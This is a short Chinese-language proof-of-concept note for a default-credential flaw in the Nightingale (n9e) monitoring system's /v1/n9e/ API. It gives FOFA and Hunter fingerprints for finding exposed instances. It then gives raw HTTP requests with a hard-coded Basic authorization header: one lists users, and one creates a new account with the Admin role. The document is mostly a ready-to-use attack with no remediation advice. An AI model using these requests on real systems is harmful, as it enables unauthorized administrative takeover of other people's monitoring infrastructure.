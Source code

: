 # 夜莺开源监控系统存在默认用户漏洞

夜莺开源监控系统存在默认用户漏洞，/v1/n9e/接口401鉴权存在默认用户
## fofa
```javascript
icon_hash="-2047686847"
```

## hunter
```javascript
web.body="icon-yijigaojing"
```

## poc

```javascript
GET /v1/n9e/users HTTP/1.1
Host: monitor.xxxx.com
Cache-Control: max-age=0
Authorization: Basic dXNlcjAwMTpjY2MyNmRhN2I5YWJhNTMzY2JiMjYzYTM2YzA3ZGNjNQ==
```

```
POST /v1/n9e/users HTTP/1.1
Host: 
Cache-Control: max-age=0
Authorization: Basic dXNlcjAwMTpjY2MyNmRhN2I5YWJhNTMzY2JiMjYzYTM2YzA3ZGNjNQ==
Content-Type: application/json
Content-Length: 61

{"Username":"test","Password":"test","Roles":["Admin"]}
```

![image-20241018164816652](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181648722.png)